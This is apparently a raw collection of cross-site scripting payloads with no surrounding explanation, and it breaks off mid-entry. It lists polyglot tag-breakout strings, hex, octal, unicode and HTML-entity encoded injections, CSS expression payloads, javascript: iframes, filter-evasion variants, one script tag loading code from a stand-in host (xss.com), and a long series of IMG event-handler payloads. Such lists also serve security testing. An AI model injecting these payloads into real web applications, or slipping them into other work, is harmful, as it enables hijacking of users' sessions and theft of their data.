 javascript://&lt;/title>&lt;/textarea>&lt;/style>&lt;/script -->&lt;li '//" '*/alert()/*', onclick=alert()// javascript:alert()//-->&lt;/script>&lt;/textarea>&lt;/style>&lt;/title>&lt;a"//' onclick=alert()//>*/alert()/* -->&lt;/script>&lt;/title>&lt;/style>"/&lt;/textarea>&lt;a' onclick=alert()//>*/alert()/* /&lt;/title/'/&lt;/style/&lt;/script/&lt;/textarea/-->&lt;p" onclick=alert()//>*/alert()/* ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//-->&lt;/SCRIPT>">'>&lt;SCRIPT>alert(String.fromCharCode(88,83,83))&lt;/SCRIPT> “ onclick=alert(1)//&lt;button ‘ onclick=alert(1)//> */ alert(1)// '">>&lt;marquee>&lt;img src=x onerror=confirm(1)>&lt;/marquee>">&lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1)>&lt;script>prompt(1)&lt;/script>@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit>'-->">&lt;/script>&lt;script>alert(1)&lt;/script>">&lt;img/id="confirm&amp;lpar;1)"/alt="/"src="/"onerror=eval(id&amp;%23x29;>'">&lt;img src="http://i.imgur.com/P8mL8.jpg"> &lt;script>document.write('\x3C\x69\x6D\x67\x20\x73\x72\x63\x3D\x31\x20\x6F\x6E\x65\x72\x72\x6F\x72\x3D\x61\x6C\x65\x72\x74\x28\x31\x29\x3E');&lt;/script> &lt;script>document.write('\074\151\155\147\040\163\162\143\075\061\040\157\156\145\162\162\157\162\075\141\154\145\162\164\050\061\051\076');&lt;/script> &lt;script>document.write('\u003C\u0069\u006D\u0067\u0020\u0073\u0072\u0063\u003D\u0031\u0020\u006F\u006E\u0065\u0072\u0072\u006F\u0072\u003D\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029\u003E');&lt;/script> &lt;div style="x:expression(alert(1))">Joker&lt;/div> &lt;div style="x:\65\78\70\72\65\73\73\69\6f\6e(alert(1))">Joker&lt;/div> &lt;div style="x:\000065\000078\000070\000072\000065\000073\000073\000069\00006f\00006e(alert(1))">Joker&lt;/div> &lt;div style="x:\65\78\70\72\65\73\73\69\6f\6e\028 alert \028 1 \029 \029">Joker&lt;/div> &lt;iframe src="javascript:alert(1)">&lt;/iframe> &lt;iframe src="javascript:%61%6c%65%72%74%28%31%29">&lt;/iframe> &lt;img src="1" onerror="alert(1)" /> &lt;img src="1" onerror="&amp;#x61;&amp;#x6c;&amp;#x65;&amp;#x72;&amp;#x74;&amp;#x28;&amp;#x31;&amp;#x29;" /> &lt;iframe src="&amp;#x6a;&amp;#x61;&amp;#x76;&amp;#x61;&amp;#x73;&amp;#x63;&amp;#x72;&amp;#x69;&amp;#x70;&amp;#x74;&amp;#x3a;&amp;#x61;&amp;#x6c;&amp;#x65;&amp;#x72;&amp;#x74;&amp;#x28;&amp;#x31;&amp;#x29;">&lt;/iframe> &lt;script>document.write('&lt;a hr\ef=j\avas\cript\:a\lert(2)>blah&lt;/a>');&lt;/script> &lt;style>body{background-color:expression\(alert(1))}&lt;/style> javascript://-->&lt;/title>&lt;/style>&lt;/textarea>&lt;/script>&lt;svg "//' onclick=alert()// /&lt;/title/'/&lt;/style/&lt;/script/-->&lt;p" onclick=alert()//>*/alert()/* &lt;"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//-->&lt;/ '%22()%26%25&lt;>&lt;ScRiPt%20>alert(1)&lt;/ScRiPt> ' onmouseover=alert(9205) bad=' ">&lt;svg/onload=prompt(1)> "onresize=prompt(1)> &lt;svg/onload=prompt(1)  &lt;svg>&lt;script>prompt&amp;#40;1)&lt;b> &lt;svg>&lt;script>prompt&amp;#40;1)&lt;/script> '%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E &lt;&lt;scr\0ipt/src=http://xss.com/xss.js>&lt;/script %253Cscript%253Ealert('XSS')%253C%252Fscript%253E &lt;IMG SRC=x onload="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onafterprint="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onbeforeprint="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onbeforeunload="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onerror="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onhashchange="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onmessage="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ononline="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onoffline="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onpagehide="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onpageshow="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onpopstate="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onresize="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onstorage="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onunload="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onblur="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onchange="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oncontextmenu="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oninput="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x oninvalid="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onreset="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onsearch="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onselect="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onsubmit="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onkeydown="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onkeypress="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onkeyup="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onclick="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondblclick="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onmousedown="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onmousemove="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onmouseout="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onmouseover="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onmouseup="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onmousewheel="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x onwheel="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondrag="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondragend="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x ondragenter="alert(String.fromCharCode(88,83,83))"> &lt;IMG SRC=x